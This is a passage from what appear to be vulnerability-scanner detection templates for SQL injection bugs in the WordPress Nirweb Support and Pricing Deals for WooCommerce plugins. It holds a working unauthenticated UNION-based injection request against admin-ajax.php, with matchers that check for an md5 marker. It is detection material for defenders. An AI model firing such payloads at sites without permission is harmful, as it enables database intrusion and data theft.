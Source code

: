 **Type - word**
- part - body
- words
    1. {{md5({{num}})}}

**Type - status**
- status
    1. 200

---
# WordPress Nirweb Support <2.8.2 - SQL Injection
## Description
- WordPress Nirweb support plugin before 2.8.2 contains a SQL injection vulnerability. The plugin does not sanitize and escape a parameter before using it in a SQL statement via an AJAX action. An attacker can possibly obtain sensitive information from a database, modify data, and/or execute unauthorized administrative operations in the context of the affected site.

- severity - critical
- tags - cve,cve2022,wordpress,wp-plugin,wp,sqli,wpscan,nirweb-support,unauth
## Requests
### Step - 1
```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

action=answerd_ticket&id_form=1 UNION ALL SELECT NULL,NULL,md5({{num}}),NULL,NULL,NULL,NULL,NULL-- -

```
### Matchers

**Type - word**
- part - body
- words
    1. {{md5(num)}}

**Type - status**
- status
    1. 200

---
# Pricing Deals for WooCommerce < 2.0.3 - Unauthenticated SQL Injection
## Description
- The Pricing Deals for WooCommerce WordPress plugin through 2.0.2.02 does not properly sanitise and escape a parameter before using it in a SQL statement via an AJAX action available to unauthenticated users, leading to an unauthenticated SQL injection.
